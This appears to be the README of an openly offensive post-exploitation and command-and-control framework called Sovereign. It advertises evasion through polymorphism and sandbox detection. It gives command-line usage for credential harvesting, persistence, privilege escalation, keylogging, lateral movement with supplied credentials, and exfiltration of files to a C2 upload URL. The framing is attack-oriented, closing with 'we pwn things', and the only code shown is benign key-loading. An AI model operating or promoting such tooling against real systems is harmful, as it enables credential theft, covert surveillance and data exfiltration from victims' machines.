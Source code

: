 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, 
-   privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate

2. **Install the required dependencies**:
    pip install -r c2_server/requirements.txt

3. **Run the C2 server**:
    python c2_server/c2_server.py

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
    python cli/cli.py list_agents

#### Send a command to a specific agent:
    python cli/cli.py send_command --agent_id AGENT_ID --command "Your command here"

#### Generate an obfuscated payload for a specific platform:
    python cli/cli.py generate_payload --platform PLATFORM

#### Harvest credentials:
    python cli/cli.py harvest_credentials

#### Establish persistence:
    python cli/cli.py establish_persistence

#### Escalate privileges:
    python cli/cli.py escalate_privileges

#### Gather system information:
    python cli/cli.py gather_system_info

#### Exfiltrate data:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

#### Start keylogger:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

#### Move laterally:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

### Example Commands

1. **Listing all registered agents**:
    python cli/cli.py list_agents

2. **Sending a command to a specific agent**:
    python cli/cli.py send_command --agent_id 1234-5678-9101-1121 --command "whoami"

3. **Generating a payload for Windows**:
    python cli/cli.py generate_payload --platform windows

4. **Harvesting credentials**:
    python cli/cli.py harvest_credentials

5. **Establishing persistence**:
    python cli/cli.py establish_persistence

6. **Escalating privileges**:
    python cli/cli.py escalate_privileges

7. **Gathering system information**:
    python cli/cli.py gather_system_info

8. **Exfiltrating data**:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

9. **Starting a keylogger**:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

10. **Moving laterally**:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

### Logging and Reporting

Logs are stored in the c2_server.log file located in the c2_server directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
    python c2_server/c2_server.py generate_report
This will create a report.txt file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the c2_server/modules directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Key Generation and Conversion

#### RSA Key Generation
To generate a pair of RSA keys, you can use the OpenSSL toolkit. Run the following commands to generate a private key and a public key:

1. **Generate a private key:**
   openssl genpkey -algorithm RSA -out private_key.pem -pkeyopt rsa_keygen_bits:2048

2. **Extract the public key from the private key:**
   openssl rsa -pubout -in private_key.pem -out public_key.pem

#### AES Key Generation
To generate an AES key, you can use OpenSSL as well:

1. **Generate a 256-bit AES key:**
   openssl rand -base64 32 > aes_key.txt

#### Conversion to XML
For Sovereign-c2, you may need to convert these keys into XML format for MS Windows. Below are examples of how you might format the keys in XML.

### Secure Management of Keys
Ensure that keys are not stored in the repository. Instead, load them from secure storage at runtime. Below is an example of how you can load keys in a Python script:

import os
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import rsa

def load_private_key(path):
    with open(path, 'rb') as key_file:
        private_key = serialization.load_pem_private_key(
            key_file.read(),
            password=None,
        )
    return private_key

def load_public_key(path):
    with open(path, 'rb') as key_file:
        public_key = serialization.load_pem_public_key(key_file.read())
    return public_key

def load_aes_key(path):
    import xml.etree.ElementTree as ET
    tree = ET.parse(path)
    root = tree.getroot()
    aes_key = root.find('value').text
    return aes_key

private_key_path = os.getenv('PRIVATE_KEY_PATH')
public_key_path = os.getenv('PUBLIC_KEY_PATH')
aes_key_path = os.getenv('AES_KEY_PATH')

private_key = load_private_key(private_key_path)
public_key = load_public_key(public_key_path)
aes_key = load_aes_key(aes_key_path)

print("Keys loaded successfully.")

### Setting Up Environment Variables
You can set up environment variables to point to the key file paths:

#### Example .env File
PRIVATE_KEY_PATH=/path/to/private_key.pem
PUBLIC_KEY_PATH=/path/to/public_key.pem
AES_KEY_PATH=/path/to/aes_key.xml

### Running the Project
To run the project, follow the instructions below:

1. **Clone the repository:**
   git clone https://github.com/4lph4-01/share.git
   cd Sovereign-C2

2. **Install dependencies:**
   pip install -r requirements.txt

3. **Run the CLI:**
   python cli/cli.py

4. **Set up the environment variables:**
   export $(cat .env | xargs)

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

### By the way, we pwn things.....
